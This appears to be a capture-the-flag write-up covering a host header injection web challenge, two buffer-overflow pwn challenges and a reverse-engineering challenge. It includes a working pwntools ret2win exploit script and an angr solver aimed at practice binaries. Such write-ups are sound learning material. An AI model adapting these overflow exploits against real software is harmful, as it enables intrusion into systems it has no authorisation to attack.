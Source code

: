 ## WEB

### Health care

#### Descripttion 

You finally come across a unique health care application. Everyone has tried their best to get info from it, but no one has been able to get anything useful. It allways makes silly excuses. Can you help us?

this challenge is quite similar to the last ctf i.e. VishwaCTF-2024's h34d3rs, where we have to to perform host header injection according to the response from server.
As ctf platform is not live for now , will not able to step through challenge(i'll update it later) but this was the final request where i added all the headers sequentially.

![health_care.png](web/03_health_care/health_care.png)

## PWN

### overflow

#### Description

I found an exposed service on a power grid machine. I heard that buffer overflow is one of the most common memory corruption bugs. Maybe it might work here?

##### Main func

![overflow1.png](pwn/01_overflow/overflow1.png)

if you see line 11 **gets** function being used that means its clearly vulnerable bof as no-bound checking, so we can leverage it for overwriting **local_14** var  as flag function is being called if and only if **local_14 != 0** where flag func print the flag.

##### Flag func

![overflow2.png](pwn/01_overflow/overflow2.png)

##### Solve

![overflow-solve.gif](pwn/01_overflow/overflow-solve.gif)


### bof

#### Description


##### Main func

![bof1.png](pwn/02_bof/bof/bof1.png)

function on line no. 10 being used is most probably **scanf** function and same as before no bound checking where the first arg i.e. is **%s** format specifier and second one is user input.

##### secretFunction func

![bof2.png](pwn/02_bof/bof/bof2.png)

this particular function is printing the flag.

okay, pretty clear it is. its just typical ret2win challenge 

##### Exploit 

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
libc = elf.libc

context.binary = elf

gdbscript='''
'''

def conn(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([elf.path] + argv, *a, **kw)

def main():
    r = conn()

    padding = cyclic(40)
    win = elf.symbols['secretFunction']
    payload = padding + pack(win)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## REV

### byte by byte

#### Description


##### Main func

![byte1.png](rev/03_byte_by_byte/byte1.png)

scattered flag , we can do it either manually or using angr

##### Solve

```python
import angr
import re 

project = angr.Project("./condition", auto_load_libs=False)

@project.hook(0x401584)  # Target address
def print_flag(state):
    print("VALID INPUT:", state.posix.dumps(0))
    project.terminate_execution()

project.execute()
``` 

![bytebybyte-solve.png](rev/03_byte_by_byte/bytebybyte-solve.png)

